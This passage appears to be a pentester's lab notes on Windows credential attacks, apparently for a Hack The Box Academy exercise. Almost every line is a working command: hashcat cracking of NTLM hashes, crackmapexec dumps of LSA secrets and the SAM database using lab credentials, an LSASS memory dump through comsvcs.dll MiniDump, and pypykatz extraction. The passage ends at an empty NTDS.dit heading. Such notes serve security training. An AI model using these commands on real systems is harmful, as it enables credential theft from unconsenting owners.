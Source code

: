 Running hashcat
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Dumping LSA Secrets

```
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

### Dumping SAM Remotely

```
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## LSASS

### Creating copy of LSASS Memory

Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file

C:\\Users\\loggedonusersdirectory\\AppData\\Local\\Temp\\lsass.DMP

_OR_

find lsass.exe and its process ID in the PID field
```
tasklist /svc
```

In powershell
```
Get-Process lsass
```

Create Dump
```
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

### Extracting data from dump

```
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

### Cracking the hash

```
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## AD & NTDS.dit
